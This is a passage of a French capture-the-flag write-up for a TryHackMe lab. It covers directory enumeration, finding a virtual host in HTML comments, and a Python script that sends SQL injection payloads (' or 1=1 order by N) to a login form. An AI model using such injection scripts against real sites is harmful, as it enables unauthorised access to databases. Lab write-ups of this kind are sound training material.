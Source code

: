 ```bash

What do you think?

Thanks,
madeye

```

Avec gobuster on trouve une adresse qui est : http://madeyecastle.thm/backup/email/  
Dans la page email on comprend qu'il y a un domaine enregistré.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl madeyecastle.thm/ -s | grep -F '<!--' -A 2
  <!--
        TODO: Virtual hosting is good. 
        TODO: Register for hogwartz-castle.thm
--
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
```

Dans les comentaires de la page principale on voit un nom de domaine virtuel qui est : hogwartz-castle.thm 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.97.166 hogwartz-castle.thm" >> /etc/hosts'
[sudo] Mot de passe de tim : 
```

On enregistre le nouveau nom de domaine dans le fichier hosts.   

!page1(./Task1-01.png)

Sur le nouveau nom de domaine on a un formulaire pour se connecter avec des identifiants.  
On tente un injection est on a une message qui est : The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat colonne.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
i = 1

while True:
    data['password']='whatevs'
    data['user'] = "' or 1=1 order by " + str(i) + " -- "
    r = requests.post(url,data=data)
    r.status_code
    if str(r) != "<Response [403]>":
        break
    i += 1

print(i-1)
```
